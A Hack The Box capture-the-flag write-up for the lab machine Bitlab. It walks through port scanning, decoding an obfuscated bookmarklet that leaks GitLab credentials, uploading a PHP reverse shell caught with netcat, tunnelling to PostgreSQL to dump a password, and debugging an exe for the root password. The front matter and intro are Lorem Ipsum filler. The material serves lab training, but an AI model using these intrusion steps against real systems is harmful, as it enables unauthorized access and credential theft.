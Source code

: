 ```yaml
---
layout: single
title: Bitlab - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-bitlab/bitlab_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bitlab/bitlab_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@kali:/opt/htb/machines/bitlab# nmapAutomatorDirb.sh 10.10.10.114 All
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
    |   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
    |_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
    80/tcp open  http    nginx
    | http-robots.txt: 55 disallowed entries (15 shown)
    | / /autocomplete/users /search /api /admin /profile
    | /dashboard /projects/new /groups/new /groups/*/edit /users /help
    |_/s/ /snippets/new /snippets/*/edit
    | http-title: Sign in \xC2\xB7 GitLab
    |_Requested resource was http://bitlab.htb/users/sign_in
    |_http-trane-info: Problem with XML parsing of /evox/about
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    DIRB
    + http://10.10.10.114:80/deploy.html (CODE:200|SIZE:2571)
    + http://10.10.10.114:80/explore.html (CODE:200|SIZE:13724)
    + http://10.10.10.114:80/public.html (CODE:200|SIZE:13810)
    + http://10.10.10.114:80/search.html (CODE:200|SIZE:13376)
    + http://10.10.10.114:80/search.php (CODE:200|SIZE:13374)

    NIKTO
    + /.well-known/openid-configuration: OpenID Provider Configuration Information.
    + OSVDB-3092: /search.vts: This might be interesting...
    + OSVDB-3092: /public/: This might be interesting...


2. On the page http://10.10.10.114/help/bookmarks.html we find a bookmark named "Gitlab Login" linking to a weird url.
    javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()

    By looking at it we can see that it's encoded hex, and something else. Decode it using https://malwaredecoder.com/
      javascript:(function(){
      document["getElementById"]("user_login")["value"]= "clave";
      document["getElementById"]("user_password")["value"]= "11des0081x"";

    Our first set of creds - clave:11des0081x

3. The creds don't work for SSH, but they do work on the login-page on port 80. Looking around on the page we find a few things
    .. http://10.10.10.114/root/profile: "TODO: Connect with postgresql"
    .. http://10.10.10.114/snippets/1:
        <?php
        $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
        $result = pg_query($db_connection, "SELECT * FROM profiles");

    psql is not reachable from our remote machine, maybe this is our way towards user / root from init.

4. We are able to upload files in http://10.10.10.114/root/profile/tree/master, upload a shell (webshell or reverse php)
   Using dirb we can locate the url for our shell. We know that index.php, README.md and developer.jpg are in the same folder.

   DIRB
    + http://bitlab.htb/profile/index.php (CODE:200|SIZE:4184)

   We can now reach our shell(s) by either ..
    http://bitlab.htb/profile/webshell.php
    http://bitlab.htb/profile/rev.php

    root@kali:/opt/htb/machines/bitlab# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.114] 56174
      Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
       20:57:55 up 5 min,  0 users,  load average: 3.04, 1.75, 0.79
      USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      /bin/sh: 0: can't access tty; job control turned off
    $

    Upgrade the shell for ease of management.
      www-data@bitlab:/$

5. Uploading lse.sh and running it shows that postgresql is up and running on it's default port - 5432.
    ================================================================( network )=====
    [*] net000 Services listening only on localhost............................ yes!
    ---
    tcp    LISTEN   0        128             127.0.0.1:3022          0.0.0.0:*
    tcp    LISTEN   0        128             127.0.0.1:5432          0.0.0.0:*

   And OpenSSH 7.2p2 on port 3022.
    www-data@bitlab:/dev/shm$ curl 127.0.0.1:3022
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6

6. By default, postgresql is running in Kali Linux. Stop the service, setup a SSH-tunnel and connect using rsql
    root@kali:/opt/htb/machines/bitlab# service postgresql stop

    www-data@bitlab:/srv/apps/profile/.git$ ssh -R 5432:127.0.0.1:5432 p3@10.10.14.10

    root@kali:/opt/htb/machines/bitlab# psql -h 127.0.0.1 -U profiles -d profiles
      Password for user profiles: (profiles)
      psql (12.1 (Debian 12.1-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
      Type "help" for help.
    profiles=>
    profiles=> TABLE profiles;
     id | username |        password
    ----+----------+------------------------
      1 | clave    | c3NoLXN0cjBuZy1wQHNz==
    (1 row)

    Decoding the password gives us "ssh-str0ng-p@ss" however we can't login with that password. Trying the
    encrypted password works tho.

7. Grab user.txt
    root@p3:/opt/htb/machines/bitlab# ssh clave@bitlab.htb
    clave@bitlab.htb's password: (c3NoLXN0cjBuZy1wQHNz==)
      Last login: Thu Nov 28 10:42:18 2019 from 10.10.14.10
    clave@bitlab:~$ cat user.txt
      1e3f****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the box as user Clave we find RemoteConnection.exe in the home folder. Reading the forums they suggest to study
   the challenge reverse EasyPass. Move the .exe to your Windows box, install Immunity Debugger and open the file.

2. "Search for" > "All referenced test strings" And I found the reference "clave".
    I set a breakpoint on the "MOV" function above the reference clave and run the program again.
    I get following output in my Registers Window:

      EAX 02C63AE0 UNICODE "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ECX 00000000
      EDX 00000033
      EBX 02C63A00 ASCII "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ESP 00CFFA40
      EBP 00CFFAC0
      ESI 02C63A33
      EDI 00CF0022
      EIP 00DC163C RemoteCo.00DC163C
      C 0  ES 002B 32bit 0(FFFFFFFF)
      P 1  CS 0023 32bit 0(FFFFFFFF)
      A 0  SS 002B 32bit 0(FFFFFFFF)
      Z 1  DS 002B 32bit 0(FFFFFFFF)
      S 0  FS 0053 32bit A62000(FFF)
      T 0  GS 002B 32bit 0(FFFFFFFF)
      D 0
      O 0  LastErr ERROR_INSUFFICIENT_BUFFER (0000007A)
      EFL 00000246 (NO,NB,E,BE,NS,PE,GE,LE)
      ST0 empty g
      ST1 empty g
      ST2 empty g
      ST3 empty g
      ST4 empty g
      ST5 empty g
      ST6 empty g
      ST7 empty g
                     3 2 1 0      E S P U O Z D I
      FST 0000  Cond 0 0 0 0  Err 0 0 0 0 0 0 0 0  (GT)
      FCW 027F  Prec NEAR,53  Mask    1 1 1 1 1 1

3. Go back to the Linux-box and ssh to get root.txt
    root@p3:~# ssh root@bitlab.htb
    root@bitlab.htb's password: (Qf7]8YSV.wDNF*[7d?j&eD4^)
    Last login: Fri Sep 13 14:11:14 2019
    root@bitlab:~# cat root.txt
      8d4c****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

PostgreSQL:
  https://gist.github.com/Kartones/dd3ff5ec5ea238d4c546
  https://www.postgresql.org/docs/8.3/app-psql.html

EasyPass:
  https://www.youtube.com/watch?v=zDjut5L_NnY
